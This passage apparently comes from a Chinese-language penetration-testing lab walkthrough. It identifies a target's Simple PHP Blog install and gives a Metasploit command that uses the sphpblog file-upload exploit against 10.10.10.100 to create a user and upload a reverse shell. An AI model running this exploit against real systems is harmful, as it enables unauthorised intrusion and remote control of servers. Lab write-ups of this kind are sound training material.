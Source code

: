 [![](assets/1703831504-9f5fc155befaed5091a948de937a2b03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164023-93a10a02-a493-1.png)

### <5>Simple PHP 源码收集、漏洞利用（MSF）

1.  此外`/blog`网页源码可以发现站点源码地址为`[sourceforge.net/projects/sphpblog/](https://sourceforge.net/projects/sphpblog/)`，可以使用 msf 进行利用
2.  创建了一个新用户名密码 `D7fAjm:LB0oXg`，可登录`/blog`上传反弹 shell 到`/images`
    
    ```bash
    msfconsole -q -x 'use exploit/unix/webapp/sphpblog_file_upload;set rhost 10.10.10.100;set uri /blog;run'
    ```
    

[![](assets/1703831504-b1a689ed5c1ada9530bead1e01002135.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164033-9931c2b8-a493-1.png)

